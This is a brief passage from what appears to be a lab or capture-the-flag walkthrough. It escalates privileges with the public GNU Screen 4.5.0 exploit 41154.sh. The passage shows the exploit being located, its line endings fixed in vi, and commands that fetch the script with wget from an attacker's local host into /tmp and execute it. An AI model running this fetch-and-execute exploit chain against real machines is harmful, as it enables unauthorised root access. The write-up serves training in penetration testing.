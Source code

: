 ```
GNU Screen 4.5.0 - Local Privilege Escalation                                          | exploits/linux/local/41154.sh

vi 41154.sh
:set ff=unix
```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/8.PNG)

```
wget  http://10.10.14.18/41154.sh /tmp
chomd +x 41154.sh;./41154.sh
```
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/9.PNG)
